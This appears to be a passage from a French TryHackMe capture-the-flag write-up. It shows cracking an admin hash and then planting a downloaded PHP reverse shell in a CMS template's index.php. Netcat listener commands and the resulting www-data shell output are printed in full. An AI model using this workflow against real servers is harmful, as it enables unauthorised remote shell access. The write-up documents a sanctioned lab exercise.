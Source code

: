 On récupère le hash.   
On le casse avec hashcat. 
On trouve le mot de passe.   

Le mot de passe est : abcd1234   

**At this point, you should be upload a reverse-shell in order to gain shell access. What is the owner of this session?**

![page2](!./Taask1-02.png)  

On s'identifie avec :   
Nom : admin  
Mot de passe : abcd1234  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute sur le port, pour se connecter sur le reverse shell.    

![page3](!./Taask1-03.png)

Allez dans Extension-\>Templates-\>Templates     

![page4](!./Taask1-04.png)

Allez dans Templates puis dans protostar.    

Préparer le reverse.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget  https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-20 16:41:48 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]
tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 
```

On télécharge un reverse shell.    
On le configure.   

![page5](!./Taask1-05.png)

On copie le reverse shell dans index.php.   

![page6](!./Taask1-06.png)  

On exécute le reverse-shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.241.226] 47352
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:48:02 up 10 min,  0 users,  load average: 0.00, 0.31, 0.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```
